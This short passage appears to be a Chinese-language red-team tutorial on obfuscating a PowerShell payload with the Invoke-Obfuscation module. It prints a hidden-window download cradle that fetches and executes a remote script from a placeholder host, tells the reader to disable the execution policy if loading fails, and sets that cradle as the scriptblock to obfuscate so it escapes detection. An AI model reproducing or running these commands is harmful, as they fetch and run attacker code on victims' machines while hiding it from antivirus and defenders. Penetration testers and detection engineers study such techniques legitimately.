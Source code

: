 ```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://x.x.x.x:80/b'))"
```

下载并用powershell进入项目目录执行：`Import-Module .\Invoke-Obfuscation.psd1;Invoke-Obfuscation`
如果报错请先执行：`Set-ExecutionPolicy Unrestricted`

![image-20220124162509125](images/image-20220124162509125.png)

输入要混淆的PS：

```
set scriptblock 'powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://x.x.x.x:80/b'))"'
```
